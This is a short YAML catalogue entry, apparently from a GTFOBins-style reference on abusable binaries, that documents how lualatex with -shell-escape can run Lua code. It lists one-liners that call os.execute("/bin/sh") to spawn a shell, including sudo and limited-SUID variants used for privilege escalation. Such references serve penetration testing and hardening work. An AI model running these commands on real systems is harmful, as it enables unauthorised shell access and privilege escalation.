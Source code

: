 ```yaml
---
description: This allows to execute [`lua`](../lua/index.html) code.
functions:
  shell:
    - code: lualatex -shell-escape '\documentclass{article}\begin{document}\directlua{os.execute("/bin/sh")}\end{document}'
  sudo:
    - code: sudo lualatex -shell-escape '\documentclass{article}\begin{document}\directlua{os.execute("/bin/sh")}\end{document}'
  limited-suid:
    - code: ./lualatex -shell-escape '\documentclass{article}\begin{document}\directlua{os.execute("/bin/sh")}\end{document}'
---
```

